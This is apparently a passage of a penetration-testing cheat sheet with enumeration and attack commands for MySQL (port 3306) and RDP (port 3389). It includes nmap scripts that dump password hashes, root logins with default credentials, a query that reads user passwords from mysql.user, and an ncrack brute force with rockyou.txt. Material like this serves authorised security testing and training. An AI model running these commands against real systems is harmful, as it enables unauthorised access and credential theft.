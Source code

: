 NoSQL

### Port 3306 – MySQL

nmap scripts
```
nmap -sV -Pn -script=mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 –p 3306 <IP_ADDRESS>
```
Log into the MySQL service with default credentials 
```
# remote
mysql -h <IP_ADDRESS> -u root -p

# local
mysql -u root -p
```
Show all the databases (Information_schema, mysql, and performance schema are default databases)
```
mysql >show databases;
```
View the current users and their passwords from the mysql.user table (default configuration)
```
mysql >select user, host, password from mysql.user;
```		
Connect to the database that you want to use
```
mysql >use mysql;
```
View the tables within the database you are currently connected to
```
mysql >show tables;
```
View the structure of a table (fields)
```
describe <TABLE>;
```
View the records from a specific field
```
SELECT <FIELD> FROM <TABLE>;
```

### Port 3389 - Remote Desktop Protocol (RDP)

nmap scripts
```
nmap -sV -Pn -script=rdp* –p 3389 <IP_ADDRESS>
```
Login to the RDP
```
#Username and password
rdesktop -u <USERNAME> -p <USERNAME> <IP_ADDRESS> -g 94%

#Guest account
rdesktop -u guest -p guest <IP_ADDRESS> -g 94%
```
Brute force RDP login with rockyou.txt
```
ncrack -vv --user <USERNAME> -P /usr/share/wordlists/rockyou.txt rdp://<IP_ADDRESS>
```
